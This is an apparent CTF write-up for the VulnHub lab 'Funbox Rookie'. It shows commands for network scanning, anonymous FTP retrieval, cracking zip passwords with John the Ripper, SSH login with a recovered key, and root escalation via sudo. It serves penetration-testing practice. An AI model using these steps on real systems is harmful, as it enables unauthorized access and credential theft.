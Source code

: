 ```yaml
---
title: WRITE-UP FUNBOX ROOKIE
date: 2024-07-29 00:00:01 +0700
categories: [write up, vulnhub, red team, oscp]
tags: [vulnhub]     # TAG names should always be lowercase
---
```


# Write-Up Funbox-2 / Funbox Rookie

## 1. Enumeration
i used netdicover to see where is my lab

```terminal
sudo netdiscover
```
ip is :> ```192.168.100.6```
![alt text](/assets/img/funbox2/funbox2_netdiscover.png)

i used nmap to see port open 

```terminal
sudo nmap -sC -sV -vvv -p- --min-rate=1000 192.168.100.6
```

*   sC : Enable default script to quick and safe
*   sV : Detect service
*   vvv : increase verbosity
*   p : port to scan "-p-" is all port 1-65535
*   min-rate=1000 : packets are sent < 1000s

![alt text](/assets/img/funbox2/funbox2_nmap.png)

port open is 80 http , 22 ssh , 21 ftp 

![alt text](/assets/img/funbox2/funbox2_port21.png)

i check port 21 i can connect to get file with anonymous user and no password need

## 2. Post Exploitation

after get all file zip . I want unzip but require password so i'm using ``` johntheripper ``` to crack with ```rockyou``` wordlist and i can unzip ```tom ``` and ```cathrine``` 

```
zip2john catherine.zip > catherine.hashes
zip2jhon tom.zip > test.hashes
john catherine.hashes --wordlist=/home/kali/rockyou.txt
john test.hashes --wordlist=/home/kali/rockyou.txt
```

![alt text](/assets/img/funbox2/funbox2_crack_catherine.png)

![alt text](/assets/img/funbox2/funbox2_crack_tom.png)

after crack ```tom``` and ```catherine``` in file have id_rsa to connect ```ssh``` so i will connect them but only tom can use .

```
ssh -i id_rsa_tom tom@192.168.100.6
```
![alt text](/assets/img/funbox2/funbox2_login_ssh_tom.png)

## 3. Privilage Escalation

when i connect ```ssh ``` with ```tom``` account i use 

```
ls -la
```

![alt text](/assets/img/funbox2/funbox2_ls.png)

and they have two files ``` . sudo_as_admin_successfull ``` and ```.mysql_history ``` so i decided red file history maybe i can read something 
![alt text](/assets/img/funbox2/funbox2_root.png)

after that's i can use tom with ```sudo ``` with tom very easy to get root rightnow

```
sudo sudo /bin/sh
```

![alt text](/assets/img/funbox2/funbox2_password.png)

## GG and thank for knowleage .